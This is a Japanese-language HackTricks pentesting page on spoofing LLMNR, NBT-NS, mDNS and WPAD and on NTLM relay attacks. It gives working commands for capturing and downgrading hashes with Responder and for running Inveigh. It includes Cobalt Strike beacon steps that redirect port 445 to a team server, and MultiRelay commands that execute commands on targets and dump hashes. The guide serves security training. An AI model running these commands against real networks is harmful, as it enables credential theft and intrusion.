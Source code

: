 # スプーフィングLLMNR、NBT-NS、mDNS/DNSおよびWPADおよびリレーアタック

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出してハッキングテクニックを共有してください。

</details>
{% endhint %}

## ネットワークプロトコル

### ローカルホスト解決プロトコル
- **LLMNR、NBT-NS、およびmDNS**:
- Microsoftおよび他のオペレーティングシステムは、DNSが失敗した場合にローカル名の解決にLLMNRおよびNBT-NSを使用します。同様に、AppleおよびLinuxシステムはmDNSを使用します。
- これらのプロトコルは、UDPを介した認証されていないブロードキャスト性質のため、傍受およびスプーフィングの対象となります。
- [Responder](https://github.com/lgandx/Responder)を使用して、これらのプロトコルをクエリするホストに偽の応答を送信してサービスをなりすますことができます。
- Responderを使用したサービスなりすましの詳細については[こちら](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)を参照してください。

### Web Proxy Auto-Discovery Protocol (WPAD)
- WPADはブラウザがプロキシ設定を自動的に検出することを可能にします。
- 検出は、DHCP、DNS、またはDNSが失敗した場合はLLMNRおよびNBT-NSを介して行われます。
- Responderを使用してWPAD攻撃を自動化し、クライアントを悪意のあるWPADサーバに誘導することができます。

### プロトコル毒入れのためのResponder
- **Responder**は、LLMNR、NBT-NS、およびmDNSクエリを毒入れするためのツールであり、クエリの種類に基づいて選択的に応答し、主にSMBサービスを対象としています。
- Kali Linuxには事前にインストールされており、`/etc/responder/Responder.conf`で設定可能です。
- Responderはキャプチャしたハッシュを画面に表示し、`/usr/share/responder/logs`ディレクトリに保存します。
- IPv4およびIPv6の両方をサポートしています。
- ResponderのWindowsバージョンは[こちら](https://github.com/lgandx/Responder-Windows)で入手できます。

#### Responderの実行
- デフォルト設定でResponderを実行するには: `responder -I <Interface>`
- より積極的なプロービングを行う場合（潜在的な副作用がある）: `responder -I <Interface> -P -r -v`
- NTLMv1のチャレンジ/レスポンスをキャプチャしてクラックを容易にするためのテクニック: `responder -I <Interface> --lm --disable-ess`
- WPADなりすましを有効にするには: `responder -I <Interface> --wpad`
- NetBIOSリクエストを攻撃者のIPに解決し、認証プロキシを設定することができます: `responder.py -I <interface> -Pv`

### Responderを使用したDHCP毒入れ
- DHCP応答のスプーフィングは、被害者のルーティング情報を永続的に毒入れし、ARP毒入れに対するより隠れた代替手段を提供します。
- ターゲットネットワークの構成について正確な知識が必要です。
- 攻撃の実行: `./Responder.py -I eth0 -Pdv`
- この方法は効果的にNTLMv1/2ハッシュをキャプチャできますが、ネットワークの混乱を避けるために注意深く取り扱う必要があります。

### Responderを使用した資格情報のキャプチャ
- Responderは上記のプロトコルを使用してサービスをなりすまし、ユーザーがなりすましサービスに認証しようとするときに資格情報（通常はNTLMv2チャレンジ/レスポンス）をキャプチャします。
- クレデンシャルのクラックを容易にするために、NetNTLMv1にダウングレードしたり、ESSを無効にしたりする試みが行われることがあります。

これらの技術を使用する際は、適切な承認を得て合法的かつ倫理的に行い、混乱や不正アクセスを避けるようにすることが重要です。

## Inveigh

Inveighは、Windowsシステム向けに設計されたペネトレーションテスターおよびレッドチーム向けのツールです。Responderと同様の機能を提供し、スプーフィングおよび中間者攻撃を実行します。このツールはPowerShellスクリプトからC#バイナリに進化し、[**Inveigh**](https://github.com/Kevin-Robertson/Inveigh)および[**InveighZero**](https://github.com/Kevin-Robertson/InveighZero)が主要なバージョンとして提供されています。詳細なパラメータと手順については[**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters)を参照してください。

InveighはPowerShellを介して操作することができます:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
またはC#バイナリとして実行されます：
```bash
Inveigh.exe
```
### NTLM Relay Attack

この攻撃は、SMB認証セッションを利用してターゲットマシンにアクセスし、成功するとシステムシェルを取得します。主な前提条件は次のとおりです：
- 認証ユーザーはリレーされたホストでのローカル管理者アクセスを持っている必要があります。
- SMB署名は無効にする必要があります。

#### 445ポートのフォワーディングとトンネリング

直接ネットワーク導入が困難なシナリオでは、ポート445のトラフィックをフォワーディングおよびトンネリングする必要があります。[**PortBender**](https://github.com/praetorian-inc/PortBender)のようなツールは、ポート445のトラフィックを別のポートにリダイレクトするのに役立ちます。これは、ローカル管理者アクセスがドライバーのロードに利用可能な場合に重要です。

Cobalt StrikeでのPortBenderのセットアップと操作：
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### NTLM Relay Attackのためのその他のツール

- **Metasploit**: プロキシ、ローカルおよびリモートホストの詳細を設定します。
- **smbrelayx**: SMBセッションを中継し、コマンドを実行したりバックドアを展開したりするためのPythonスクリプトです。
- **MultiRelay**: 特定のユーザーまたはすべてのユーザーを中継し、コマンドを実行したりハッシュをダンプしたりするResponderスイートからのツールです。

必要に応じて各ツールはSOCKSプロキシを介して操作するように構成でき、間接的なネットワークアクセスでも攻撃を可能にします。

### MultiRelayの操作

MultiRelayは _**/usr/share/responder/tools**_ ディレクトリから実行され、特定のIPアドレスまたはユーザーを対象とします。
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
### NTLMリレーアタックを実行するための包括的なセットを形成するこれらのツールとテクニック。

### NTLMログインを強制する

Windowsでは、**特権アカウントの一部を任意のマシンに認証させることができる場合があります**。次のページを読んで詳細を学んでください：

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## 参考文献
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
AWSハッキングを学んで実践：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学んで実践：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のGitHubリポジトリにPRを提出して、ハッキングトリックを共有してください。

</details>
{% endhint %}
